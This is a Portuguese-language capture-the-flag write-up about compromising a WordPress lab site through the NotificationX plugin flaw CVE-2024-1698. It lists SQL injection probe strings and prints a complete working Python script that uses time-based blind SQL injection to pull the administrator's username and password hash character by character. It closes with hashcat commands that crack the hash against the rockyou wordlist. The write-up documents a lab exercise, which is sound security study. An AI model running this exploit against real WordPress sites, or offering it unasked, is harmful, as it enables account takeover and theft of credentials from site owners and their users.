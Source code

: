 # SQL Injection

## Reconhecimento

Ao abrir o website a primeira informação que tentámos encontrar é a versão do Wordpress que normalmente se encontra nos metadados do website com o name="generator".

![Wordpress Version](/screenshots/CTF8_1.png)

Procurando por vulnerabilidades relacionadas a essa versão do Wordpress não encontrámos nada relacionado a SQL Injection.

Ao analisar o comentário pop-up que regularmente aparecia utilizando o serviço Notification-X:

![Notificação](/screenshots/CTF8_2.png)

Dava a informação que o hash da palavra-passe do adminstrador começava por $P$B.

Em baixo tem um form que possibilita o utilizador responder ao comentário que comunica com a base de dados através de wp-comments-post.php. 

![Form](/screenshots/CTF8_3.png)

Para testar a possibilidade de um ataque através deste form inserimos caracteres especiais frequentemente usados em injeções SQL, como: ```' OR '1'='1```, ```' OR 1=1 --``` e ```' UNION SELECT NULL, NULL --```. Todos sem sucesso pois o ao comentar qualquer input dava erro.

![Erro Reply](/screenshots/CTF8_4.png)

Finalmente procurando por mais vetores de ataque procurámos por vulnerabilidades relacionadas ao serviço de notificações utilizado e sabendo que a sua versão é a 2.8.1 encontrámos o CVE-2024-1698.

![Versão Notification-X](/screenshots/CTF8_5.png)

![CVE Details](/screenshots/CTF8_6.png)

Procurámos por PoCs (Proofs of Concept) da exploit em questão encontrando vários scripts tais como:

```py
import requests
import string
from sys import exit

# Sleep time for SQL payloads
delay = 3

# URL for the NotificationX Analytics API
url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"

admin_username = ""
admin_password_hash = "$P$B"  # Start with the known prefix

session = requests.Session()

# Find admin username length
username_length = 0
for length in range(1, 41):  # Assuming username length is less than 40 characters
    resp_length = session.post(url, data={
        "nx_id": 1337,
        "type": f"clicks`=IF(LENGTH((select user_login from wp_users where id=1))={length},SLEEP({delay}),null)-- -"
    })

    # Elapsed time > delay if delay happened due to SQLi
    if resp_length.elapsed.total_seconds() > delay:
        username_length = length
        print("Admin username length:", username_length)
        break

# Find admin username
for idx_username in range(1, username_length + 1):
    # Iterate over all the printable characters
    for ascii_val_username in string.printable:
        # Send the payload
        resp_username = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ord(ascii_val_username)},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_username.elapsed.total_seconds() > delay:
            admin_username += ascii_val_username
            # Show what we have found so far...
            print("Admin username:", admin_username)
            break  # Move to the next character

# Find admin password hash starting from the known prefix
for idx_password in range(4, 41):  # Assuming the password hash length is less than 40 characters
    # Iterate over all the printable characters
    for ascii_val_password in string.printable:
        # Send the payload
        resp_password = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ord(ascii_val_password)},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_password.elapsed.total_seconds() > delay:
            admin_password_hash += ascii_val_password
            # Show what we have found so far...
            print("Admin password hash:", admin_password_hash)
            break  # Move to the next character

print("[*] Admin credentials found:")
print("Username:", admin_username)
print("Password hash:", admin_password_hash)
```

Ajustámos os campos url, admin_password_hash utilizando a pista dada pelo comentário do concerned-hacker e o delay dos payloads SQL.

Correndo o script descobrímos o hash da password do admin:

![Resultado Script](/screenshots/CTF8_7.png)

O hash segue o formato de PHPPass, um algoritmo comumente usado para proteger senhas no Wordpress. O hashcat suporta o formato PHPPass através do modo 400.

Utilizando o hashcat com os parâmetros hashcat -m 400 -a 0 hash.txt rockyou.txt, sendo o último ficheiro uma coleção de passwords mais utilizadas que encontrámos no github, descodificamos a flag heartbroken.

![Resultado Hashcat](/screenshots/CTF8_8.png)